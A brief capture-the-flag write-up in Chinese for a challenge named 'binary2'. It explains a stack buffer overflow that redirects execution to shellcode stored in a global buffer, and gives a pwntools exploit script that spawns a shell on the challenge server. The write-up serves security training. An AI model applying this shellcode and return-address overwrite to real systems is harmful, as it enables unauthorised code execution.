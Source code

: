 ## binary2
binary先`read()` 50 bytes到.data的name中，再`gets()`到stack上，因此先在`name`寫入shellcode，再以buffer overflow將return address複寫為`&name`。
```python
#!/usr/bin/env python3
from pwn import *

context.update(os='linux', arch='amd64')

payload = b''
payload += asm(shellcraft.sh()) # shellcode
payload += cyclic(50 - len(payload)).encode() # padding since will read 50 bytes
payload += cyclic(40).encode() + p64(0x601080) # overwrite return address

r = remote('pwnhub.tw', 54321)
r.sendline(payload)
r.interactive()
```
